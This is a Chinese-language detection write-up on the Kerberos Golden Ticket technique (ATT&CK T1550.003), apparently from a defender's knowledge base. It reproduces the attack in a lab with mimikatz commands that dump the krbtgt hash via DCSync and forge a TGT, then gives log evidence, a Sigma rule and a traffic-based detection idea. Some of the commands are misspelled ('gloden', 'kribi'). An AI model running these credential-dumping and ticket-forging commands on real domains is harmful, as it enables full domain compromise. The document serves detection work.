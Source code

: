 # T1550-003-Win-黄金票据

## 来自ATT&CK的描述

攻击者可能会使用被盗的Kerberos票证“传递票证”，使其在目标组织的环境中横向移动，从而绕过正常的系统访问控制。传递票证（PtT）是一种使用Kerberos票证对系统进行身份验证的方法，无需访问帐户密码。Kerberos身份验证可以用作横向移动到远程系统的第一步。

在这种技术中，有效的Kerberos票有效的帐户被捕获OS凭证倾销。取决于访问级别，可以获得用户的服务票证或票证授予票证（TGT）。服务票证允许访问特定资源，而TGT可以用于从票证授予服务（TGS）请求服务票证以访问用户有权访问的任何资源。

可以为使用Kerberos作为身份验证机制的服务获取Silver Ticket，并用于生成票证以访问该特定资源和承载该资源的系统（例如，SharePoint）。

可以使用密钥分发服务帐户KRBTGT帐户NTLM哈希来获取域的Golden Ticket，这可以为Active Directory中的任何帐户生成TGT。

## 测试案例

黄金票据（golden ticket）：伪造票据授予票据（TGT），也被称为认证票据。与其说是一种攻击方式，不如说是一种后门，当域控权限掉后，再重新获取权限，因为常见的在域中管理员知道自己被入侵了 往往只是简单的修改域管的账号 恰恰krbtgt却被忽略…

## 检测日志

Windows 安全日志

## 测试复现

### 测试环境

Windows server 2016（AD域控）

Win 7（靶机）

### 测试过程

#### 尝试访问DC目录

```dos
dir \\ICBC.abcc.org\c$\
```

![访问DC目录](https://s1.ax1x.com/2020/04/16/JFzcM6.png)

#### 导出krbtgt用户的hash和sid(使用mimikatz.exe工具)

```bash
lsadump::dcsync /domain:abcc.org /user:krbtgt    #domian：后面是域控名  user后面是krbtgt用户
```

![凭据](https://s1.ax1x.com/2020/04/16/JFzXdg.png)

在域内其他Client(用户机器)上使用其他域管理员来抓取krbtgt用户的hash和sid(使用mimikatz.exe工具)，这里命令和上面的命令是一样的。也可以利用其它方法获取krbtgt的NTML hash

#### 清除自己Client端(域内其他机器)的票据

在域控上面成功抓取了hash和sid，将hash和sid复制到其他域内机器中，也就是Client端，然后在mimikatz.exe执行kerberos::list查看我们当前的票据。

![清理凭据](https://s1.ax1x.com/2020/04/16/JFzjoQ.png)

如果存在其它凭据，可以使用kerberos::purge清除当前用户票据。

#### 伪造TGT票据

##### 方法一

```bash
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit
```

![伪造](https://s1.ax1x.com/2020/04/16/JkSAwF.png)

##### 验证攻击效果

```dos
dir \\ICBC.abcc.org\c$\
```

![验证](https://s1.ax1x.com/2020/04/16/JkSeY9.png)

#### 方法二

```bash
mimikatz# kerberos::gloden /domain:*.com /sid:<域SID> /krbtgt: <KRBTGT NTLM Hash> /user:<任意用户名> /ticket:test.kribi
or
mimikatz# kerberos::gloden /domain:*.com /sid: <域SID> /aes256: <KRBTGT aes256> /user: <任意用户名> /ticket:test.kribi
```

![伪造2](https://s1.ax1x.com/2020/04/16/JkSMy6.png)

#### 导入*.kribi文件

![导入](https://s1.ax1x.com/2020/04/16/JkSQOK.png)

#### 验证是否成功

![验证1](https://s1.ax1x.com/2020/04/16/JkSd6P.png)

## 测试留痕

正常日志痕迹

![正常](https://s1.ax1x.com/2020/04/16/JkS6Yj.png)

异常日志痕迹

![异常](https://s1.ax1x.com/2020/04/16/JkSykQ.png)

## 检测规则/思路

### Sigma规则

```yml
title: windows本地账户操纵
description: win7测试
references:
tags: T1550-003
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4624  #账户登录
        Account domain: '*.*' #可参考示例日志进行理解
    selection2:
        EventID: 4672  #特殊登录
        Account domain: _ #账户域为空
    timeframe: last 5s
    condition: all of them
level: medium
```

### 建议

最后，存在一些问题，mimikatz最新版本已经更新修复了一下问题，通过上述此特征检测黄金票据可能会产生误报或者漏洞，建议采用偏向流量侧的检测方法进行检测，思路如下。

1.AS-REP返回的Ticket字段中，虽然经过krbtgt密码的加密，但我们仍然可以对其计算唯一摘要值。

2.跟踪每一次的AS-REP TGT票据颁发，记录下Ticket Hash，存入列表A。

3.对每一次TGS-REQ中TGT Hash进行确认，判断该值是否存在于已知颁发过的TGT列表A中。如果不存在，则属于伪造的TGT，即黄金票据。

4.列表A的内容可设置过期时间，TGT和ST的默认最大有效期都是10小时。

## 参考推荐

MITRE-ATT&CK-T1550-003

<https://attack.mitre.org/techniques/T1550/003/>
